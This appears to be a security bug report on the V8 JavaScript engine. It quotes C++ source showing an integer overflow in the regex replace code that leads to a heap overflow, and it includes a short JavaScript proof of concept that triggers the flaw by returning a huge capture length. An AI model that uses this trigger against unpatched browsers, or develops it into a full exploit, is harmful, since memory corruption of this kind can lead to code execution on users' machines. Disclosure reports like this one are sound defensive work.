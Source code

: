 Here's a snippet of the method.
    ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
        isolate, captures_length_obj,
        Object::ToLength(isolate, captures_length_obj));
    const int captures_length = PositiveNumberToUint32(*captures_length_obj);
    ...
    if (functional_replace) {
      const int argc =
          has_named_captures ? captures_length + 3 : captures_length + 2; <<-- (a)

      ScopedVector<Handle<Object>> argv(argc);

      int cursor = 0;
      for (int j = 0; j < captures_length; j++) {
        argv[cursor++] = captures[j];
      }

      // (b)
      argv[cursor++] = handle(Smi::FromInt(position), isolate);
      argv[cursor++] = string;

The variable "captures_length" is user-controlled, so an integer overflow may occur at (a) which causes a heap overflow at (b).


PoC:
let cnt = 0;
let reg = /./g;
reg.exec = () => {
    if (cnt++ == 0)
        return {length: 0xfffffffe};

    cnt = 0;
    return null;
};

''.replace(reg, () => {});

Tested on d8 6.4.224.


This bug is subject to a 90 day disclosure deadline. After 90 days elapse
or a patch has been made broadly available, the bug report will become
visible to the public.

